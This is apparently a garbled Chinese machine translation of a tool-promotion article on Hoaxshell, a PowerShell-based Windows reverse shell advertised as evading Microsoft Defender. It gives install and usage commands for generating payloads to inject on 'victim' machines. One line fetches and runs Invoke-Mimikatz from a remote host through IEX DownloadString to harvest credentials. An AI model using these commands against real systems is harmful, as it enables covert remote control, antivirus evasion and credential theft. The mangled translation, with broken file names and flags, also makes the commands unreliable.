

# Hoaxshell:一个非常规的 Windows 反向外壳，目前未被微软 Defender 检测到

> 原文：<https://kalilinuxtutorials.com/hoaxshell/>

%20(1).png)

Hoaxshell 是一个非常规的 Windows 反向外壳，目前未被 Microsoft Defender 和其他反病毒解决方案检测到，因为它仅基于 http(s)流量。该工具易于使用，它生成自己的 PowerShell 负载，并支持加密(ssl)。

到目前为止，它已经在完全更新的 **Windows 11 Enterprise** 和 **Windows 10 Pro** 机器上进行了测试(见视频和截图)。

## 装置

git 克隆 https://github.com/t3l3machus/hoaxshell
CD。/hoax shell
sudo pip 3 install-r requirements . txt
chmod+x hoax shell . py

## 使用

**重要提示**:作为一种避免检测的方法，每当脚本启动时，hoaxshell 会自动为进程中使用的会话 id、URL 路径和自定义 http 头的名称生成随机值。生成的有效负载将仅对为其生成的实例有效。使用`**-g**`选项绕过这种行为，重新建立一个活动会话，或者使用 hoaxshell 的新实例重用过去生成的有效负载。

#### 【http 上的基本外壳会话

**sudo python 3 hoax shell . py-s**

当您运行 hoaxshell 时，它会生成自己的 PowerShell 有效负载，供您复制并注入到受害者上。默认情况下，为了方便起见，有效负载是 base64 编码的。如果您需要原始有效负载，请执行“rawpayload”提示符命令或使用`**-r**`参数启动 hoaxshell。在受害者上执行有效负载后，您将能够对其运行 PowerShell 命令。

#### 加密外壳会话(https):

**生成自签名证书:
OpenSSL req-x509-new key RSA:2048-keyut key.pem-out cert.pem-days 365
传递 cert . PEM 和 key . PEM 作为参数:
sudo python 3 hoax shell . py-s-c-k**

生成的 PowerShell 有效负载的长度会更长，因为有一个额外的代码块禁用了 ssl 证书验证。

#### 抓取会话模式

如果您意外关闭终端、断电或其他情况，您可以在抓取会话模式下启动 hoaxshell，它将尝试重新建立会话，假设有效负载仍在受害机器上运行。

s**Udo python 3 hoaxshell . py-s-g**

## 限制

如果您执行启动交互式会话的命令，shell 将会挂起。示例:

**这个命令将成功执行，您将不会有任何问题:
powershell 回显“这是一个测试”
但是这个命令将在 hoaxshell 会话中打开一个交互式会话，并将导致 shell 挂起:
powershell
以同样的方式，您执行这个命令不会有任何问题:
cmd /c dir /a
但是这会导致您的 hoaxshell 挂起:
cmd.exe**

因此，如果您想通过 hoaxshell 运行 mimikatz，您需要调用以下命令:

**霍克斯谢尔> IEX(New-Object Net。WebClient)。download string(' http://192 . 168 . 0 . 13:4443/Invoke-mimikatz . PS1 ')；Invoke-Mimikatz -Command 的" " PRIVILEGE::Debug"'**

长话短说，您必须小心不要运行在 hoaxshell powershell 上下文中启动交互式会话的 exe 或 cmd。

[**Download**](https://github.com/t3l3machus/hoaxshell)